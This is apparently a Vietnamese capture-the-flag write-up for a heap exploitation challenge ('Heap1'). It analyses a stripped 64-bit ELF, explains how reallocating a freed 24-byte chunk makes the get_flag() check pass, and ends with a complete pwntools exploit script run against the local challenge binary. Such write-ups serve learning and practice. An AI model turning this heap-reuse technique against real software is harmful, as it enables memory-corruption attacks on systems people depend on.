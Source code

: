 # Heap_Exploit - Heap1

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn1_ff: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=b744398ed054457775b2ede2fc6f427f294fca56, stripped
```
Đây là file 64-bit bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x3ff000)
```
Ở bài này không bof hay thực thi shellcode được. Kế đến sử dụng Ida Pro 64 bits

Sửa lại file IDA ta có hàm main():

![main.png](images/main.png)

Ở đây ta có 4 options trong đó 1 option khi ta chạy file không có đó là get_flag():

![get_flag.png](images/get_flag.png)

# 2. Phân tích yêu cầu

Tại hàm get_flag() sẽ lấy 8 bytes giá trị ở địa chỉ 0x6020f0 rồi cộng thêm 8 và lưu vào RAX

Cuối cùng so sánh giá trị tại địa chỉ RAX đó với 0xABCDEF

Nếu đúng sẽ in ra flag cho chúng ta.

# 3. Khai thác

Đầu tiên chúng ta sẽ tạo một vài chunks: 

```
create(24,p64(0xABCDEF)*5)
create(24,p64(0xABCDEF)*5)
create(24,p64(0xABCDEF)*5)
```

Khi đó heap của chúng ta sẽ như sau:

![chunk1.png](images/chunk1.png)

Và địa chỉ cần so sánh với 0xABCDEF tương ứng với chunk thứ 3:

![addr.png](images/addr.png)

Tiếp theo chúng ta free() chunk đó: 

```
free(2)
```

Heap khi đó:

![chunk2.png](images/chunk2.png)

Có thể thấy địa chỉ của chunk thứ 3 đó đã bị lưu vào 8 bytes đầu của phần data trước đó

Ta sẽ cấp phát lại 1 chunk có size bằng với chunk vừa free: 

```
create(24,p64(0xABCDEF)*5)
```

![chunk3.png](images/chunk3.png)

Và data của chunk vừa cấp phát đã đổi chõ với address của chunk đó

Kiểm tra lại địa chỉ so sánh:

![addr2.png](images/addr2.png)

Vậy là đã đúng với điều kiện để cat_flag, giờ chúng ta chỉ cần nhập option ẩn thôi:

```
flag()
```

# 4. Giải thích: 

Ở hàm create_heap()

```
size_4 = (linklist *)malloc(0x10uLL);
size_4->data = (char *)malloc(size);
```

![heap.png](images/heap.png)

Có thể thấy ở đây vùng nhớ địa chỉ có kích thước 0x18bytes và khi đó là do cơ chế địa chỉ trả về của allocator.

Do địa chỉ của chunk là 0x8 bytes mà khi free thì sẽ xóa 8bytes đầu phần data -> nó sẽ lưu địa chỉ chunk vào đó và nếu ta cấp phát 1 chunk có size tương tự thì sẽ được lưu vào phần data trống trước đó dành cho địa chỉ chunk

* Lưu ý:

Điều này chỉ xảy ra khi size data <= vùng địa chỉ chunk (0x18 bytes) trước đó.

# Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn1_ff', checksec=False)

p = process("./pwn1_ff")

gdb.attach(p, gdbscript='''
vis
''')

def create(size,data):
	p.sendlineafter(b">", b"1")
	p.sendlineafter(b"Input size:", str(size))
	p.sendafter(b"Input data:", data)

def free(idx):
	p.sendlineafter(b">", b"2")
	p.sendafter(b"Input index:", str(idx)) 
def flag():
    p.sendlineafter(b">", b"4")


create(24,p64(0xABCDEF)*5)
create(24,p64(0xABCDEF)*5)
create(24,p64(0xABCDEF)*5)
free(2)
create(24,p64(0xABCDEF)*5)
flag()
p.interactive()
```
# 5. Lấy flag

![flag.png](images/flag.png)


